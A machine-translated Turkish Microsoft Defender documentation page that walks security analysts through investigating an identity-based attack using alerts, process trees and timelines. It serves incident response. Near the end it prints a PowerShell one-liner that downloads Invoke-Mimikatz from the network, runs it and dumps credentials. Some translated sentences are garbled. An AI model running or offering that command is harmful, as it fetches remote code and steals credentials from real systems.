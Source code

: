 ```yaml
---
title: Kimlik tabanlı bir saldırı örneği
description: Kimlik tabanlı bir saldırının örnek çözümlemesinde adım adım ilerler.
keywords: olaylar, uyarılar, araştırma, korelasyon, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570117"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı bir saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Aşağıdakiler için geçerlidir:**
- Microsoft 365 Defender

Kimlik için Microsoft Defender, kötü amaçlı girişimleri algılamaya yardımcı olarak, organizasyon kimliklerini tehlikeye atma konusunda yardımcı olabilir. Identity için Defender, kimlik Microsoft 365 Defender ile tümleştiri olduğundan, güvenlik analistleri şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Identity için Defender'dan gelen tehditlere karşı görünürlük sağlar.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Saldırıyı iş yerinde Kimlik için Microsoft Defender

Microsoft 365 Defender, analistlerin olaylar sayfasının Uyarılar sekmesindeki algılama **kaynağıyla uyarıları** filtrelemelerine olanak sağlar. Aşağıdaki örnekte algılama kaynağı, Kimlik için Defender olarak **filtre uygulanmıştır**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Çalışma alanında algılama kaynağını Kimlik için Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Şüpheli **üstteki karmser saldırı uyarısını** seçmek, şu ifadede daha ayrıntılı bilgi Microsoft Defender for Cloud Apps bir sayfaya gider. Saldırı ve düzeltme önerilerinin açıklamasını okumak için Bu uyarı türü hakkında daha fazla  bilgi alın öğesini seçerek her zaman bir uyarı [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) veya saldırı hakkında daha fazla bilgi bulabilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli bir üstteki karmser saldırı uyarısı" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Aynı saldırıyı iş yerinde Uç Nokta için Microsoft Defender

Alternatif olarak, bir analist uç nokta üzerinde etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay sırasından olayı seçin ve sonra Uyarılar **sekmesini** seçin. Buradan, algılama kaynağını da tanımlayabilirler. Uç Nokta olarak etiketlenmiş algılama EDR Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt'ın açılımıdır. Analist buradan, güvenlik uzmanı tarafından algılanan bir uyarıyı EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Yeni Portalda Uç Nokta Algılama Uç Nokta için Microsoft Defender Yanıt" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Uyarı sayfasında, etkilenen cihaz adı, kullanıcı adı, otomatik soruşturma durumu ve uyarı ayrıntıları gibi çeşitli bilgiler görüntülenir. Uyarı hikayesinde, işlem ağacının görsel bir gösterimi yer almaktadır. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="alan içinde bir uyarı işlemi Uç Nokta için Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Daha fazla ayrıntı görüntülemek için her işlem genişletilebilir. Bir analistin göreceği ayrıntılar kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Microsoft Defender portalında süreç ayrıntıları" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Zaman çizelgesinde **gör'i seçerek**, analist güvenlik güvenliğinin tam zamanı belirlemek için daha da detaya iner. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosya ve betik algılanabilir. Bununla birlikte, giden bağlantılar, PowerShell ve komut satırı etkinliklerinin pek çok yasal kullanımı nedeniyle, kötü amaçlı bir dosya veya etkinlik oluşturana kadar bazı etkinlikler izin olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin ortak dosya sistemi ve kullanıcı etkinliğine yönelik saldırının özgün kaynağını veya saatlerini belirlemek üzere uyarıyı çevresindeki etkinlikle ilgili bağlama eklemesine yardımcı olur. 

Zaman çizelgesini kullanmak için, bir analist uyarı algılama zamanında (kırmızıyla) başlayabilir ve kötü amaçlı etkinliğin başladığı özgün etkinliğin ne zaman başlayacağını belirlemek için geriye doğru kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama için analistin başlangıç zamanı" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update bağlantıları, Windows Yazılım etkinleştirme trafiği, Microsoft sitelerine diğer yaygın bağlantılar, üçüncü taraf İnternet etkinlikleri, Microsoft Endpoint Configuration Manager etkinlikleri ve şüpheli etkinlikler gibi sık kullanılan etkinlikleri anlamak ve ayırt etmek önemlidir. etkinlik. Zaman çizelgesi filtrelerini kullanarak ayırt etmek için bir yol vardır. Analistin görüntülemek istemediklerini filtrelerlerken belirli etkinliği vurgulayan birçok filtre vardır. 

Aşağıdaki resimde, yalnızca ağ ve süreç olaylarını görüntülemek için filtrelenmiş analist. Bu filtre ölçütü, analistin etkinliği çevreleyen ağ bağlantılarını ve süreçleri görmelerine olanak Not Defteri; işlem ağacında da gördüğümüz IP adresiyle bir bağlantı kurabilirsiniz. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Giden Not Defteri kötü amaçlı bağlantı yapmak için nasıl kullanılır?" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Bu özel olayda, Not Defteri giden bağlantı yapmak için bu kod kullanılmıştır. Ancak genellikle saldırganlar kötü amaçlı iexplorer.exe indirmek üzere bağlantı kurmak için iexplorer.exe kullanır çünkü normalde bu işlemler normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde bakıla diğer bir öğe, PowerShell'in giden bağlantılar için kullandığı öğe olabilir. Analist, kötü amaçlı dosyayı barındıran bir web sitesine `IEX (New-Object Net.Webclient)` giden bağlantı gibi komutların ve ardından da giden bağlantının olduğu başarılı PowerShell bağlantılarını elde eder. 

Aşağıdaki örnekte, PowerShell bir web sitesinden Mimikatz'i indirmek ve yürütmek için kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

Kimlik avı [soruşturması](first-incident-path-phishing.md) yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetin](manage-incidents.md)
- [Olayları araştırın](investigate-incidents.md)
